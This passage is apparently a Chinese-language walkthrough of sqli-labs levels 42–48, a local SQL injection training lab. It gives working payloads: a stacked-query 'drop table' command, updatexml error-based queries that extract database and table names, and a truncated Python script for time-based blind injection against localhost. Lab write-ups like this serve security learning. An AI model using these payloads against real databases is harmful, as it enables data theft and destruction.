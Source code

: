 密码:`a' drop table test;%23`

### 43 Stacked Query

同上 闭合换`')`


### 44 Stacked Query Blind

同上 闭合`'`

(所谓blind就是没错误回显

### 45 Stacked Query Blind

同上 闭合`')`

### 46 ORDER BY-Error-Numeric

查询语句:`SELECT * FROM users ORDER BY $id`

这题要提供的参数是`order by`后面的字段

报错注入可行: `1 and updatexml(0,concat(0x7e,database()),0)%23`

`1 and updatexml(0,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security')),0)%23`
...

### 47 ORDER BY Clause-Error-Single quote

闭合`'`，其余同上

`1' and updatexml(0,concat(0x7e,database()),0)%23`

### 48 ORDER BY Clause Blind based

把报错删了，可以盲注

```python
# BLIND INJECT

import time
import requests


def blind_inject(url, loc, mid, comp='>', target='database()'):
    params = {
        'sort': f"1 and if(ascii(substr({target},{loc},1)){comp}{mid}, sleep(0.02),0); -- ",
    }
    time_start = time.time()
    req = requests.get(url=url, params=params)
    time_end = time.time()
    if time_end - time_start > 0.01:
        return 1
    else:
        return 0


url = "http://localhost/Less-48/"
# target = "database()"
target = "(select group_concat(table_name) from information_schema.tables where table_schema='security')"
# target = "(select group_concat(column_name) from information_schema.columns where table_name='user')"
res = ""
end = 0
for i in range(1, 1000):
```